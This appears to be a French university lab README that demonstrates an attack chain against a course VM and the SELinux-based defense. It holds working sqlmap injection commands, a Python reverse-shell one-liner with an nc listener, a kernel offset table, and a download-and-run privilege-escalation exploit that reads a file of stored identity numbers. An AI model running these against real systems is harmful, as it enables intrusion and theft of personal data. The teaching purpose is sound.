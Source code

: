 # INF8602 - Projet de session

## Prérequis :

Ajouter la ligne suivante dans ``/etc/hosts`` :
```
IP_DE_LA_VM  inf8602.local
```

## Attaque
- Accéder à la page : http://inf8602.local
- Se connecter avec : ``ebelanger``, ``motdepasse``

### Exploration

Exploration à l'aide de sqlmap :
```bash
./sqlmap.py --flush-session -u "http://inf8602.local:5000/login/?username=ebelanger&password=motdepasse" --method POST
```

On constate que le serveur est vulnérable.

Listons les tables:
```bash
./sqlmap.py -u  "http://inf8602.local:5000/login/?username=ebelanger&password=motdepasse" --method POST --dump -T users --stop 5
```

Les NAS ne sont pas là...

On souhaite obtenir un shell :
```bash
./sqlmap.py -u  "http://inf8602.local:5000/login/?username=ebelanger&password=motdepasse" --dbms=postgresql --method POST --no-cast --os-shell
```

On lance ensuite :
```bash
python3 -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("192.168.122.1",8080));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

Puis dans un autre terminal :
```bash
nc -l -p 8080 -vvv
```

Le shell est obtenu!

Il faut montrer que l'utilisateur est ``postgress`` et que les NAS sont dans ``/nas.txt`` :
```bash
whoami
ls -lsa /
uname -a
```

On constate que seul root peut accéder à ``nas.txt``. On constate également que le kernel fait partit de la liste suivante :
```c
struct kernel_info kernels[] = {
    {"5.11.0-22-generic #23~20.04.1-Ubuntu", 0x33ceb0, 0x166c2c0},
    {"5.11.0-25-generic #27~20.04.1-Ubuntu", 0x33d390, 0x166c2e0},
    {"5.11.0-27-generic #29~20.04.1-Ubuntu", 0x33d390, 0x166c2e0},
    {"5.11.0-34-generic #36~20.04.1-Ubuntu", 0x33e740, 0x166c340},
    {"5.11.0-36-generic #40~20.04.1-Ubuntu", 0x33e740, 0x166c340},
    {"5.11.0-37-generic #41~20.04.2-Ubuntu", 0x33eae0, 0x166c340},
    {"5.11.0-38-generic #42~20.04.1-Ubuntu", 0x33f400, 0x166c340},
    {"5.11.0-40-generic #44~20.04.2-Ubuntu", 0x33f980, 0x1c6c2e0},
    {"5.11.0-41-generic #45~20.04.1-Ubuntu", 0x33fdb0, 0x1c6c2e0},
    {"5.11.0-43-generic #47~20.04.2-Ubuntu", 0x33fdb0, 0x1c6c2e0},
    {"5.11.0-44-generic #48~20.04.2-Ubuntu", 0x3400b0, 0x1c6c2e0},
    {"5.13.0-21-generic #21~20.04.1-Ubuntu", 0x34adc0, 0x1e6e060},
    {"5.13.0-22-generic #22~20.04.1-Ubuntu", 0x34b280, 0x1e6e060},
    {"5.13.0-23-generic #23~20.04.2-Ubuntu", 0x34b270, 0x1e6e0a0},
    {"5.13.0-25-generic #26~20.04.1-Ubuntu", 0x34b330, 0x1e6e0a0},
};
```

Il est possble de réaliser une elévation de privilège :
```bash
wget https://github.com/bourquejulien/INF8602-Projet/raw/main/SELinux/attack/exploit
chmod +x exploit
./exploit
bash -p
```

Il est maintenant possible d'accéder au NAS :
```bash
whoami
cat /nas.txt
```

## Défense

Pour relance la DB :
```bash
sudo systemctl restart postgresql
```

**Plusieurs défenses existents.**

Pour éviter les injections SQL :
```bash
sudo systemctl stop inf8602
sudo systemctl start inf8602-safe
```

Pour éviter l'exécution de l'attaque :
```bash
sudo systemctl stop inf8602-safe
sudo systemctl start inf8602

sestatus
sudo setenforce 1
sestatus
```

**Relancer l'attaque**

Pour éviter l'exécution de l'attaque :
```bash
sudo setenforce 0
```
